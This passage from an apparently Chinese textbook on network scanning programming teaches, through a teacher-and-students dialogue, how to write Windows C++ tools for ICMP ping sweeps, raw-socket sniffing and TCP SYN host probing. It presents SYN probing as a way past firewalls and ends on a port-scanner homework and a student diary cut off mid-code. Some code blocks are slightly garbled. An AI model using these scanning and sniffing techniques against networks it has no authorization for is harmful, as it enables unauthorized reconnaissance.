“数据倒是发送出去了，我们怎么知道它是否回应了 ICMP echo reply 包呢？”

一种方法是使用 `setsockopt()` 设置套接字的接收超时时间，在调用 `sendto` 函数发出 ICMP echo 数据包后，调用 `recvfrom` 函数接收回应的数据包。ping 程序就是采用的这种方式。如果采用这种方法来探测的话，无疑要开启大量的线程来减少时间的耗费。另一种方式就是使用嗅探技术，在 ICMP echo request 包发出去后，通过网络适配器进行嗅探，通过分析返回的数据包获取 ICMP echo reply。这种方式效率比较高，同时嗅探技术在“黑客技术”中具有重要的历史地位，因此我们准备来个“一箭双雕”。

“好啊！”小菜们一听到嗅探二字，精神立刻为之一振。

嗅探工具不知大家使用过没有，比较经典实用的嗅探工具有 Sniffer、Iris 等，它们在解决网络故障、调试网络程序等方面发挥着重要的作用，但它们的功能一般限于数据包的捕获，而不会有针对性地对某些数据进行还原（比如窃取帐号密码）。然而网络上却有一些专门嗅探密码的工具，比如大名鼎鼎的密码破解和嗅探工具 Cain，它就可以嗅探几十种密码。提到嗅探，不得不提到 WinPcap（WinPcap 是 libpcap 在 Windows 下的移植），它是嗅探程序的开发包。利用 WinPcap 可以方便快捷地对链路层以及链路层以上的数据包进行捕获，并且 WinPcap 还允许设置捕获数据包的过滤器来对数据包进行过滤，最后 WinPcap 还可以直接发送链路层的数据包，如 ARP 包。不过呢，使用 WinPcap 来进行编程需要其开发包的支持以及对其文档手册的仔细阅读。鉴于其实现难度以及我们今天嗅探任务的简单性，我们决定使用更简单的方法来实现嗅探：“原始套接字”。使用原始套接字也可以进行数据包嗅探，不过它只能进行 IP 层以上的数据包嗅探，比如 ARP 之类的数据包就嗅探不到。现在就让我们来看看如何使用原始套接字实现嗅探功能。利用原始套接字进行嗅探也可以分为三个步骤：把网卡置于混杂模式、捕获数据包、分析数据包。

看来 3 还真是一个吉祥的数字呀，三顾茅庐、桃园三结义、三人行，必有我师。老师说道：“好了，回到主题，先谈第一步，将网卡置于混杂模式。”

在正常情况下，一个网络接口应该只响应两种数据包：一种是与自己硬件地址相匹配的数据包；一种是发向所有机器的广播数据包。其它所有的包都会丢弃。如果要网卡接收所有通过它的数据，而不管是不是发给它的，那么必须要把网卡置于混杂模式。使用原始套接字可以用下面的代码来实现：

```c
SOCKET sock = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
bind(sock, (sockaddr *)&addr, sizeof(addr));
WSAIoctl(sock, SIO_RCVALL, &dwValue, sizeof(dwValue), NULL, 0, &dwRet, NULL, NULL);
```

这三个步骤就将网卡设置为混杂状态了。现在网卡已经分不清敌我，将所有的数据包都传到应用层来了，剩下的工作就是取出来使用了哦。捕获数据包，这一步就简单了，使用 `recv()` 函数就可以将数据包取出来；分析数据包，要分析数据包，首先要清楚数据包发送以及接收的过程。我们以 ICMP 数据包的发送与接收来简单介绍一下，如图 3-18。

当数据要通过 ICMP 发送出去的时候，首先会填充 ICMP 头部，然后向下递交，填充 IP 头部，再填充以太网的头部，最后通过网卡变为物理信号发送到网络上。而接收 ICMP 数据的时候就是逆向的顺序了，网卡从网络上接收到数据包后，首先去掉以太网头部，再去掉 IP 头部以及 ICMP 头部，才能得到数据，这个就是数据传递的整个过程。而我们使用原始套接字来进行嗅探工作的时候，已经是去掉了以太网头部的数据了，如上图中的黑色部分。因此我们要分析 ICMP 数据包，就需要首先去掉 IP 头部，再分析 ICMP 的头部，就可以得到该数据包是 ICMP ECHO Request 或者 ICMP ECHO Reply 数据包了。但其实我们在分析计算机存活的时候根本就用不着分析 ICMP 的头部，只要该数据包的源 IP 地址是我们需要检测的主机 IP，那么就可以认为该主机是存活的，因此只用分析 IP 头部就可以了。下面就是解析数据包的 IP 地址的一段代码。

```cpp
LPPIPHEADER ipHeader = (PIPHEADER)RecvBuf;
if (htonl(ipHeader->sourceIP) >= Param.dwEndIp
    || htonl(ipHeader->sourceIP) < Param.dwStartIp)
    return;

// 说明 ipHeader->sourceIP 这个 IP 地址存活
```

## 3．ICMP 主机存活探测工具

理论知识已经讲完，现在我们就可以打造一个使用 ICMP 探测主机存活性的工具了。

###### （1）工程初始化

创建一个基于 MFC 的对话框工程，工程名为“CheckLive”，这个大家应该都是轻车熟路了，就不多说了，如图 3-19。

首先在 `CCheckLiveApp::InitInstance()` 中进行网络初始化，再次提醒，不然后面建立 socket 是不会成功的。

```cpp
BOOL CCheckLiveApp::InitInstance()
{
    WSADATA wsaData;
    // 网络初始化
    if (WSAStartup(WINSOCK_VERSION, &wsaData))
        return FALSE;

    CCheckLiveDlg dlg;
    m_pMainWnd = &dlg;
    INT_PTR nResponse = dlg.DoModal();

    // 网络收尾工作
    WSACleanup();
    return FALSE;
}
```

###### （2）设计界面

从“工具箱”选取适当的控件加入到对话框资源中，如图 3-20。

###### （3）添加消息响应函数

双击“确定”按钮，VC2003 会为我们自动创建消息响应函数 `void CCheckLiveDlg::OnBnClickedOk()`，还是要马上去掉 VC 为我们添加的 `OnOK()` 函数。

###### （4）关联 IP 控件和列表框到成员变量

```cpp
CIPAddressCtrl m_IpStart;
CIPAddressCtrl m_IpEnd;
CListCtrl m_BackMsgList;
```

###### （5）代码设计

前奏工作已经安排妥当，现在可以来进行真正的代码设计了。经过前面的分析，大家应该知道我们需要两个线程：`RecvThread` 和 `CheckLiveByICMP`。`CheckLiveByICMP` 线程用于发送 ICMP echo 数据包，而 `RecvThread` 线程通过嗅探捕获回应的 ICMP echo reply 数据包。关于线程函数参数结构的设计，大家应该多多实践，就由你们来构造这个结构吧。

嗯，好的。线程函数需要获得的信息有“起始 IP 地址”“结束 IP 地址”“对话框实例指针”以及“数据拷贝完成的事件”。小菜 A 说道：“因此我们可以把结构设计如下。”

```cpp
typedef struct tagTHREADPARAM
{
    DWORD dwStartIp;           // 开始 IP
    DWORD dwEndIp;             // 结束 IP
    CCheckLiveDlg* pDlg;       // 对话框实例指针
    HANDLE hCopyOKEvent;       // 数据拷贝完成事件
} THREADPARAM, *PTHREADPARAM;
```

不错，分析得基本正确。但我们的 `RecvThread` 线程还不知道什么时候不捕获数据包了，总不能一直捕获吧。因此可以再加入一个事件来控制 `RecvThread` 的结束，最后形成的参数结构如下。老师补充了一下。

```cpp
typedef struct tagTHREADPARAM
{
    DWORD dwStartIp;            // 开始 IP
    DWORD dwEndIp;              // 结束 IP
    CCheckLiveDlg* pDlg;        // 对话框实例指针
    HANDLE hCopyOKEvent;        // 数据拷贝完成事件
    HANDLE hRecvStopEvent;      // 数据接收结束事件
} THREADPARAM, *PTHREADPARAM;
```

分析到这里，`OnBnClickedOk` 响应的流程就已经基本出来了。

- `OnBnClickedOk()` -> 获取 IP 地址
- 构造线程需要的参数
- 开启 `RecvThread` 线程
- 开启 `CheckLiveByICMP` 线程
- 返回

代码的具体实现如下。

```cpp
void CCheckLiveDlg::OnBnClickedOk()
{
    // 获取 IP 地址
    DWORD dwStartIp;
    DWORD dwEndIp;
    m_IpStart.GetAddress(dwStartIp);
    m_IpEnd.GetAddress(dwEndIp);

    // 创建事件
    HANDLE hCopyOKEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    HANDLE hRecvStopEvent = CreateEvent(NULL, TRUE, FALSE, NULL);

    // 初始化参数
    THREADPARAM Param = {0};
    Param.dwStartIp = dwStartIp;
    Param.dwEndIp = dwEndIp;
    Param.pDlg = this;
    Param.hCopyOKEvent = hCopyOKEvent;
    Param.hRecvStopEvent = hRecvStopEvent;

    // 创建 ICMP 回显接收线程
    CreateThread(NULL, 0, RecvThread, &Param, 0, NULL);
    WaitForSingleObject(hCopyOKEvent, INFINITE);
    ResetEvent(hCopyOKEvent);

    // 创建 ICMP echo 数据包发送线程
    CreateThread(NULL, 0, CheckLiveByICMP, &Param, 0, NULL);
    WaitForSingleObject(hCopyOKEvent, INFINITE);
    return;
}
```

而 `CheckLiveByICMP` 的线程流程为：建立原始套接字 -> 填充 ICMP 头部 -> `sendto()` 发送数据包。其代码实现如下。

```cpp
DWORD WINAPI CheckLiveByICMP(LPVOID lpParam)
{
    THREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    SetEvent(Param.hCopyOKEvent);
    for (DWORD dwIp = Param.dwStartIp; dwIp < Param.dwEndIp; dwIp++)
    {
        // 目标 IP 地址
        sockaddr_in addr;
        addr.sin_family = AF_INET;
        ICMPHEADER icmpHeader;

        // 建立原始套接字
        SOCKET sock = socket(AF_INET, SOCK_RAW, IPPROTO_ICMP);
        if (sock == INVALID_SOCKET)
        {
            return 0;
        }

        addr.sin_addr.S_un.S_addr = htonl(dwIp);

        // 填充 ICMP 包头信息
        memset((char*)&icmpHeader, 0, sizeof(icmpHeader));
    }
}
``````cpp
icmpHeader.i_type = 8; // icmp echo
icmpHeader.i_code = 0;
icmpHeader.i_cksum = 0x0;
icmpHeader.i_id = (unsigned short)GetCurrentProcessId();
icmpHeader.i_seq = 0;
icmpHeader.i_timestamp = (unsigned long)::GetTickCount();
memset(&icmpHeader.i_data, 'x', 26);
unsigned short *buf = (unsigned short *)&icmpHeader;
// 计算校验和
int nleft = sizeof(IcmpHeader);
int sum = 0;
unsigned short answer = 0;
while (nleft > 1) {
    sum += *buf++;
    nleft -= 2;
}
if (nleft == 1) {
    *(unsigned char *)(&answer) = *(unsigned char *)buf;
    sum += answer;
}
sum = (sum >> 16) + (sum & 0xffff);
sum += (sum >> 16);
answer = ~sum;
// 填充校验和
icmpHeader.i_cksum = answer;
// 发送回波包
sendto(sock, (char *)&icmpHeader, sizeof(IcmpHeader),
    0, (struct sockaddr *)&addr, sizeof(addr));
closesocket(sock);
}

// 等待10秒
Sleep(10000);
// 设置结束信号
SetEvent(Param.hRecvStopEvent);
return 0;
}
```

“最后再来看线程 RecvThread 的实现。其流程为 RecvThread -> 建立原始套接字 -> 把网卡置于混杂模式 -> 捕获数据包 -> 分析数据包 -> 添加返回信息。其代码如下。”

```cpp
DWORD WINAPI RecvThread(LPVOID lpParam)
{
    THREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    // 创建原始套接字用来接收所有的网络数据包
    SOCKET sock = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
    if (sock == INVALID_SOCKET) { // 创建失败？
        AfxMessageBox("接收线程建立socket失败");
        return 0;
    }

    // 必须将套接字绑定到本机的某一端口上才能获取所有发送给本机的数据包
    sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = INADDR_ANY;
    // 注意：这里的IP地址必须是本机的IP地址
    addr.sin_addr.S_un.S_addr = inet_addr("192.168.0.2");
    if (bind(sock, (sockaddr*)&addr, sizeof(addr))) { // 绑定失败？
        closesocket(sock);
        AfxMessageBox("接收线程绑定失败");
        return 0;
    }

    // 设置套接字表示接收所有数据包
    DWORD dwn = 1, dwRet;
    if (WSAIoctl(sock, SIO_RCVALL, &dwn, sizeof(dwn), NULL, 0, &dwRet, NULL, NULL)) {
        // 设置失败？
        closesocket(sock);
        AfxMessageBox("接收线程设置套接字失败");
        return 0;
    }

    // 存储接收的数据
    char RecvBuf[256];
    int ilen = sizeof(addr);

    SetEvent(Param.hCopyOKEvent);
    while (WaitForSingleObject(Param.hRecvStopEvent, 0) == WAIT_TIMEOUT)
    {
        if (recv(sock, RecvBuf, sizeof(RecvBuf), 0) <= 0)
            continue;

        // 只是接收，没有connect，所以数据包中有 IP、TCP 头
        // 解析数据包中的 IP、TCP 头
        LPPIPHEADER pipHeader = (LPPIPHEADER)RecvBuf;
        if (htonl(pipHeader->sourceIP) > Param.dwEndIp ||
            htonl(pipHeader->sourceIP) < Param.dwStartIp)
            continue;

        // 添加接收结果
        in_addr addrTmp;
        addrTmp.s_un.S_addr = pipHeader->sourceIP;
        Param.pDlg->m_BackMsgList.InsertItem(0, inet_ntoa(addrTmp));
    }
    closesocket(sock);
    return 0;
}
```

“好了，代码实现完毕。我们执行来看看扫描效果吧，如图 3-21。”

“哇，果然完美啊！”

“其实并不完美，因为 ICMP echo request 数据包是很可能被防火墙拦截的，所以我们还需要想想别的办法来绕过它。”

#### 二、TCP SYN 探测主机存活

“另一种存活主机的探测方法就是利用 TCP SYN 包。因为 TCP SYN 数据包是正常 TCP 连接请求的第一个请求，所以网络上的硬件防火墙对它是不得不放行的。”

### 1、TCP SYN 探测原理

“在实现 SYN 扫描前，我们还是先分析一下 TCP 的一些原理细节。一个 TCP 数据包包括一个 TCP 头，后面是选项和数据。TCP 头可以定义为下面的数据结构。”

```cpp
struct TCPHEADER            // 定义TCP首部
{
    USHORT th_sport;        // 16位源端口
    USHORT th_dport;        // 16位目的端口
    UINT   th_seq;          // 32位序列号
    UINT   th_ack;          // 32位确认号
    BYTE   th_lenres;       // 4位首部长度，6位保留字
    BYTE   th_flag;         // 6位标志位
    USHORT th_win;          // 16位窗口大小
    USHORT th_sum;          // 16位校验和
    USHORT th_urp;          // 16位紧急数据偏移量
};
```

请注意 th_flag，它有 6 种标志位。它们的意义分别为：

- **SYN**：标志位用来建立连接，让连接双方同步序列号。如果 SYN=1 而 ACK=0，则表示该数据包为连接请求；如果 SYN=1 而 ACK=1，则表示接受连接。
- **FIN**：表示发送端已经没有数据要求传输了，希望释放连接。
- **RST**：用来复位一个连接。RST 标志置位的数据包称为复位包。一般情况下，如果 TCP 收到的一个分段明显不是属于该主机上的任何一个连接，则向远端发送一个复位包。
- **URG**：为紧急数据标志。如果它为 1，表示本数据包中包含紧急数据。此时紧急数据指针有效。
- **ACK**：为确认标志位。如果为 1，表示包中的确认号是有效的。否则，包中的确认号无效。
- **PSH**：如果置位，接收端应尽快把数据传送给应用层。

### 2、TCP 连接的建立过程

TCP 是一个面向连接的可靠传输协议。面向连接表示两个应用端在利用 TCP 传送数据前必须先建立 TCP 连接，就像你在打电话，通过电话交谈之前必须在对方接听了你的电话之后一样；TCP 的可靠性通过使用校验和、定时器、数据序列号和应答来提供。通过给每个发送的数据包分配一个序号，接收端接收到数据后发送应答；TCP 协议保证了数据的可靠传输。数据序号用来保证数据的顺序，剔除重复的数据。在一个 TCP 会话中，有两个数据流（每个连接端从另外一端接收数据，同时向对方发送数据），因此在建立连接时，必须要为每一个数据流分配 ISN（初始序号）。为了了解实现过程，我们假设客户端 C 希望跟服务器端 S 建立连接，然后分析连接建立的过程（通常称作三次握手）：

1：C 发送一个 TCP 包（SYN 请求）给 S，其中标记 SYN（同步序号）要打开。SYN 请求指明了客户端希望连接的服务器端端口号和客户端的 ISN（XX 是一个例子）。

2：服务器端发回应答，包含自己的 SYN 信息 ISN（YY）和对 C 的 SYN 应答，应答时返回下一个希望得到的字节序号（YY+1）。

3：C 对从 S 来的 SYN 进行应答，数据发送开始。当这三次握手完成之后，那么这个 TCP 连接也就建立起来了。

在三次握手过程中还有一些细节，大部分 TCP/IP 实现遵循以下原则：

- 1. 当一个 SYN 或者 FIN 数据包到达一个关闭的端口，TCP 丢弃数据包同时发送一个 RST 数据包。
- 2. 当一个 RST 数据包到达一个监听端口，RST 被丢弃。
- 3. 当一个 RST 数据包到达一个关闭的端口，RST 被丢弃。
- 4. 当一个包含 ACK 的数据包到达一个监听端口时，数据包被丢弃，同时发送一个 RST 数据包。
- 5. 当一个 SYN 位关闭的数据包到达一个监听端口时，数据包被丢弃。
- 6. 当一个 SYN 数据包到达一个监听端口时，正常的三阶段握手继续，回答一个 SYN|ACK 数据包。
- 7. 当一个 FIN 数据包到达一个监听端口时，数据包被丢弃。“FIN 行为”（关闭的端口返回 RST，监听端口丢弃包），在 URG 和 PSH 标志位置位时同样要发生。所有的 URG、PSH 和 FIN，或者没有任何标记的 TCP 数据包都会引起“FIN 行为”。

“哦，明白了，我们只要发送一个带有 SYN 标志的 TCP 包，如果目标主机存在的话，就会返回一个 TCP 包来表示自己的状态，这样就可以实现存活性探测了。”

“孺子可教也！在没有防火墙的情况下，目标主机都会返回基于协议的数据包。”

“那么有防火墙该怎么办呢？”

“呵呵，你们知道当前网络中最常用的服务是什么呢？”

“web 服务呀！”

“对，我们就使用 web 服务最常用的 80 端口作为目标，向目标主机的 80 端口发送 SYN 数据包，只要目标主机开启了 80 端口，即使有防火墙，也不会响应我们的 SYN 包。当然了，如果主机存活，却开启了其它服务，我们就不能检测到了。时间与准确性，鱼与熊掌还是不可兼得啊。”

##### 3. TCP SYN 探测主机存活性实现

###### （1）如何发送 SYN 包

“要实现利用 TCP SYN 来探测主机的存活性，第一个要解决的就是如何发送 TCP SYN 数据包，我们在前面的内容可没有提到过如何发送 SYN 包。”

“对于 SYN 包的发送有三种方法可以实现。第一种就是使用原始套接字来编程，必须手工构造一个 TCP SYN 包，然后发送出去。”

“这个方法不错，我们刚学到了原始套接字，这个应该也不是问题吧。”小菜们说道。

“不过呢，这个方法是有限制的。刚才我也说过了，这种方法在 WinXP SP2 和 Win2003 SP1 下不能使用，已经被系统限制了，而且目前我们所使用的大部分都是 WinXP SP2 系统，因此有必要照顾一下这些朋友。而第二种方法就是使用 WinPcap 来进行编程。WinPcap 不仅仅可以用来嗅探数据包，还可以直接构造数据包进行发送，连 ARP 数据包都可以发送哦。但鉴于复杂度，我们也不采用这种方法。”

“哇，WinPcap，听起来就流口水啊。”

“没关系，以后有机会我们再来学习吧。第三种方法则是使用了网络编程的一个技巧，当我们调用 connect() 函数进行端口连接的时候，系统会帮我们进行三次握手的连接过程，因此系统会首先发送一个 SYN 包到目的主机，而就在这个时刻如果我们调用 closesocket() 函数把套接字关闭掉，那么会出现什么现象呢？呵呵，系统已经为我们进行了一次 SYN 扫描了哦。”

“老师，connect() 函数不是要等到连接成功或者超时才会返回吗？”

connect() 函数会阻塞的真正原因是因为我们建立的套接字是阻塞模式的，如果我们将套接字更改成非阻塞模式，connect() 函数马上就会返回哦。解决了这个问题，我们看看具体的实现方式，其实现步骤如下：

```cpp
SOCKET sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
ioctlsocket(sock, FIONBIO, &argp);
connect(sock, (sockaddr*)&addr, sizeof(addr));
closesocket(sock);
```

“这样就完成了一次 TCP SYN 包的发送了哦，是不是很简单呢？”

###### （2）如何去接收返回的数据包

“上面我们已经讲过了使用原始套接字实现嗅探的例子，因此可以用相同的方法来对数据包进行分析。现在我们把 TCP SYN 探测主机存活的方法也添加到上一个工程中，使用 ICMP 和 SYN 两种方法来探测，从而进一步保证探测的可靠性。”

“唉，数据包接收只是判断源 IP 地址是否在我们扫描的范围之内，因此可以不用改变啊！那么只要多添加一个发送 SYN 的探测线程，由 OnBnClickedOk() 开启就可以了。”小菜们分析道，“因此，OnBnClickedOk() 只用多加一条语句即可，修改后如下。”

```cpp
void CCheckLiveDlg::OnBnClickedOk()
{
    // 获取IP地址
    DWORD dwStartIp;
    DWORD dwEndIp;
    m_lpStart.GetAddress(dwStartIp);
    m_lpEnd.GetAddress(dwEndIp);
    // 创建事件
    HANDLE hCopyOkEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    HANDLE hRecvStopEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    // 连接线程参数
    THREADPARAM Param = {0};
    Param.dwStartIp = dwStartIp;
    Param.dwEndIp = dwEndIp;
    Param.pDlg = this;
    Param.hCopyOKEvent = hCopyOkEvent;
    Param.hRecvStopEvent = hRecvStopEvent;
    // 创建ICMP包接收线程
    CreateThread(NULL, 0, RecvThread, &Param, 0, NULL);
    WaitForSingleObject(hCopyOkEvent, INFINITE);
    ResetEvent(hCopyOkEvent);
    // 创建SYN包发送线程
    CreateThread(NULL, 0, CheckLiveBySYN, &Param, 0, NULL);
    WaitForSingleObject(hCopyOkEvent, INFINITE);
    ResetEvent(hCopyOkEvent);
    // 创建ICMP echo数据包发送线程
    // 为了验证SYN探测是否正常工作，先将
    // CreateThread(NULL, 0, CheckLiveByICMP, &Param, 0, NULL);
    // WaitForSingleObject(hCopyOkEvent, INFINITE);
    return;
}
```

“哈哈，很简单吧。我们再来实现 SYN 的发送线程。为了测试我们的 SYN 探测是正常工作的，这里就先将 ICMP 发送线程屏蔽掉。SYN 包发送的流程为：建立 TCP 套接字 -> 将套接字修改成非阻塞模式 -> 调用 connect -> 马上 closesocket。因此我们的 SYN 包发送线程函数的代码就如下了。”

```cpp
DWORD WINAPI CheckLiveBySYN(LPVOID lpParam)
{
    THREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    SetEvent(Param.hCopyOkEvent);
    for (DWORD dwIp = Param.dwStartIp; dwIp < Param.dwEndIp; dwIp++)
    {
        // 目标IP地址
        sockaddr_in addr;
        addr.sin_family = AF_INET;
        addr.sin_port = htons(80);
        addr.sin_addr.S_un.S_addr = htonl(dwIp);
        SOCKET sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
        if (sock == INVALID_SOCKET)
        {
            continue;
        }
        // 设置异步操作套接字所用的参数
        ULONG argp = 1;
        // 设置使用异步操作
        if (ioctlsocket(sock, FIONBIO, &argp) == SOCKET_ERROR) // 设置失败
        {
            // 关闭套接字并获取下一个IP后重新开始
            closesocket(sock);
            continue;
        }
        connect(sock, (sockaddr*)&addr, sizeof(addr));
        closesocket(sock);
    }
    return 0;
}
```

# 第三章 端口与漏洞扫描编程

```cpp
closesocket(sock)
...
return 0
```


“赶紧测试一下吧，如图3-22。”

“乌拉，成功了，而且还探测出更多的主机。”小菜们为又学到一项新的探测方法而欢呼。

“不对，怎么有重复的IP呢？难道又是多线程不同步的问题？”小菜B首先发现了问题。

“我们才两个线程呢？而且我们都使用了事件来保持同步的啊。”小菜A也迷惑了。

“其实这个问题是因为在 closesocket 时，只是向系统底层投递了一个关闭句柄的消息，系统在其它忙完了才会处理这个消息，而由于我们的网络太快的原因（网络太快也是错，汗啊），目标主机就会返回 ACK+SYN 标志的数据包，系统就会发送 ACK 标志的数据包进行三次握手的最后一步，这时，系统才开始处理 closesocket 发送的消息了，又会主动发送 FIN+ACK 标志来结束该连接，此时目标主机又会发送数据包来结束本次连接，因此就出现了重复IP的现象。

为了验证这个情况，我们来扫描一个连接速度慢的IP：www.baidu.com（211.94.144.100），如图3-23。”


“这次果然就只出现了一个IP，那么如何改进呢？这次我们只是采用了 SYN 扫描，如果加上 ICMP 扫描，那么回应的数据包至少也有两个哦。”

“这个我们就需要在 RecvThread 线程里面作一下判断，保存历史添加过的IP信息，从而去掉重复的IP。首先申请一块空间来存放历史IP地址 `DWORD * pdwHistoryIp = new DWORD[Param.dwEndIp-Param.dwStartIp];`，然后在符合的数据包到来的时候进行遍历比较，看看是否已经添加过了。”

```cpp
BOOL bFound = FALSE;
// 判断重复IP
for (DWORD dwTmp = 0; dwTmp < Param.dwEndIp - Param.dwStartIp; dwTmp++)
{
    if (pdwHistoryIp[dwTmp] == 0)
    {
        break;
    }
    else if (pdwHistoryIp[dwTmp] == ntohl(ipHeader->sourceIP))
    {
        bFound = TRUE;
        break;
    }
}
```

“bFound 就是标志，当这段代码执行完之后如果 bFound 等于 TRUE，那么表示已经添加过了该IP信息。最后修改的 RecvThread 线程函数代码如下。”

```cpp
DWORD WINAPI RecvThread(LPVOID lpParam)
{
    THREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    // 创建原始套接字用于获取发送给本机的网络数据包
    SOCKET sock = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
    if (sock == INVALID_SOCKET) // 创建失败？
    {
        AfxMessageBox("接收线程建立socket失败");
        return 0;
    }

    // 必须将套接字绑定到本机的某一端口上才能获取所有发送给本机的数据包
    sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = INADDR_ANY;
    addr.sin_addr.S_un.S_addr = inet_addr("192.168.15.20");
    if (bind(sock, (sockaddr*)&addr, sizeof(addr))) // 绑定失败？
    {
        closesocket(sock);
        AfxMessageBox("接收线程绑定失败");
        return 0;
    }

    DWORD *pdwHistoryIp = new DWORD[Param.dwEndIp - Param.dwStartIp];
    ZeroMemory(pdwHistoryIp, sizeof(DWORD) * (Param.dwEndIp - Param.dwStartIp));
    // 设置接收无效接收缓冲
    DWORD dwIn = 1, dwRet;
    if (WSAIoctl(sock, SIO_RCVALL, &dwIn, sizeof(dwIn), NULL, 0, &dwRet, NULL, NULL))
    {
        // 设置失败
        closesocket(sock);
        AfxMessageBox("接收线程设置套接字失败");
        return 0;
    }

    // 存储接收的数据
    char RecvBuf[256];
    int iLen = sizeof(addr);
    SetEvent(Param.hCopyOKEvent);
    while (WaitForSingleObject(Param.hRecvStopEvent, 0) == WAIT_TIMEOUT)
    {
        if (recv(sock, RecvBuf, sizeof(RecvBuf), 0) <= 0)
            continue;

        // 只是接收，没有connect，所以数据包中有IP、TCP头
        // 解析数据包中的IP、TCP头
        LPIPHEADER pipHeader = (LPIPHEADER)RecvBuf;
        if ((htonl(pipHeader->sourceIP) > Param.dwEndIp) ||
            (htonl(pipHeader->sourceIP) < Param.dwStartIp))
            continue;

        BOOL bFound = FALSE;
        // 判断重复IP
        for (DWORD dwTmp = 0; dwTmp < Param.dwEndIp - Param.dwStartIp; dwTmp++)
        {
            if (pdwHistoryIp[dwTmp] == 0)
            {
                break;
            }
            else if (pdwHistoryIp[dwTmp] == htonl(pipHeader->sourceIP))
            {
                bFound = TRUE;
                break;
            }
        }

        if (!bFound)
        {
            // 添加回显结果里
            in_addr addrTmp;
            addrTmp.S_un.S_addr = pipHeader->sourceIP;
            Param.pDlg->m_BackMsgList.InsertItem(0, inet_ntoa(addrTmp));
        }
    }

    delete []pdwHistoryIp;
    closesocket(sock);
    return 0;
}
```


“赶快让我们看看效果吧。”小菜们已经迫不及待了。

“不慌，我们将开始在 OnBnClickedOk() 函数里屏蔽的 ICMP 发送线程的代码反注释，同时使用 ICMP 以及 SYN 来进行主机存活性探测，‘Ctrl + F5’ 执行，执行一次扫描任务。”

“噢！成功+正确！终于功德圆满了，如图3-24。”

### 3.1.4 TCP SYN端口扫描

“上一节我们已经使用了 SYN 来探测主机的存活性，而且也取得了预期的效果，这里我们更进一步，直接使用 TCP SYN 来进行端口扫描！大家先回忆一下目标主机在遇到我们发送的 TCP SYN 数据包的时候会作出什么反应呢？”

“当一个 SYN 或者 FIN 数据包到达一个关闭的端口，TCP 丢弃数据包同时发送一个 RST 数据包；当一个 SYN 数据包到达一个监听端口时，正常的三阶段握手继续，回答一个 SYN|ACK 数据包。”

“小菜们看了看前面的课程说道。关闭的。经过上面的 SYN 探测主机存活，我们来实现 SYN 的端口扫描就比较轻松了，这个就留下来作为今天的家庭作业，请各位同学将写好的程序发送到我的邮箱中。下面是该程序的要求：”

- 1．使用 SYN 进行端口扫描；
- 2．可以扫描多个 IP；
- 3．可以扫描多个端口；
- 4．需要将扫描结果显示在对话框中。

> “程序编写，实践最重要，听我讲起来什么问题都没有，当你自己动手的时候可能会遇到 N 多的问题哦，而且当你自己动手把问题解决了后才会领悟到其中真正的含义、原因，记住‘程序不是听出来，也不是写出来，而是调试出来的’，请大家各显神通，通过前面所学的知识来完成这个作业吧。”

## 小菜A的日记

“今天老师布置了一个利用 TCP SYN 进行端口扫描的作业，当时就想了下程序的流程，应该是点击‘开始’按钮 -> 开启数据包接收线程 -> 开启 SYN 包发送线程，觉得应该比较简单，吃完饭后就开始上机编程了。”

“首先打开 VC 2003，在菜单上选择‘文件’->‘新建’->‘项目’，弹出了‘新建项目’对话框，在左面的‘项目类型’中选择‘MFC’，右面‘模板’中选择‘MFC 应用程序’，我将项目命名为 SynScan，‘确定’后进入了‘MFC 应用程序向导’，在‘应用程序类型’将程序类型从‘多文档’修改为‘基于对话框’，点击‘完成’；hoho，成功了，真是轻车熟路，听课认真的好处啊，下面就开始设计我的界面了。还是和老师的例子一样，使用两个 IP 控件（IP Address Control）和两个编辑框（Edit Control）来表示 IP 地址和端口，用一个列表控件（List Control）来显示结果，拼凑拼凑，终于把界面设计好了，如图3-25。”

“为了调整这些界面元素以使它们对齐，还真费了不少劲，后来发现原来还有一个‘对话框编辑器’，使用里面的工具可以轻松调整对话框中的控件位置、大小，如图3-26。”

“界面搞定后，点击控件，在属性视图中的‘ID’选项中修改控件的 ID，最后形成了这样的关系。”


| 名称 | ID |
|---|---|
| 开始IP地址 | IDC_IPADDR_START |
| 结束IP地址 | IDC_IPADDR_END |
| 开始端口 | IDC_PORT_START |
| 结束端口 | IDC_PORT_END |
| 结果列表控件 | IDC_LIST |

“然后将它们关联为类成员变量，对控件点击右键 -> ‘添加变量’，弹出‘添加成员变量向导’，全部将上面的控件关联为类成员变量。”

| 名称 | ID | 类成员变量 |
|---|---|---|
| 开始IP地址 | IDC_IPADDR_START | CIPAddressCtrl m_ipStartCtrl |
| 结束IP地址 | IDC_IPADDR_END | CIPAddressCtrl m_ipEndCtrl |
| 开始端口 | IDC_PORT_START | UINT m_uiStartPort |
| 结束端口 | IDC_PORT_END | UINT m_uiEndPort |
| 结果列表控件 | IDC_LIST | CListCtrl m_BackMsgList |

“在关联端口的时候还遇到一个问题，在选择‘变量类型’的时候发现只有一个类型‘CEdit’，后来才发现需要将‘类别’从‘Control’修改为‘Value’，如图3-27，这个时候‘变量类型’中就出现了各种变量的类型，如 CString、UINT，这个问题还着实让我郁闷了一下，差点以为 VC 2003 有问题。”

“双击‘确定’按钮，VC 自动添加了消息响应函数，并导航到该函数的位置。历经千辛万苦，终于可以编写代码了。首先分析程序实现的方式，点击‘确定’按钮 -> 获取输入的 IP 和端口 -> 填充传递给线程的参数 -> 开启接收线程 -> 开启 SYN 发送线程。然后定义好了线程的名字，占个坑，以便‘消息响应函数’的编写。”

```cpp
DWORD WINAPI SynRecvThread(LPVOID lpParam);
DWORD WINAPI SynSendThread(LPVOID lpParam);
```

“其次是设计线程参数结构，因为需要传递的参数有开始 IP 地址、结束 IP 地址、开始端口、结束端口，还有数据拷贝完成的事件以及让 SynRecvThread 停止的事件，还有对话框实例指针，就这么多，因此结构可以定下来了。”

```cpp
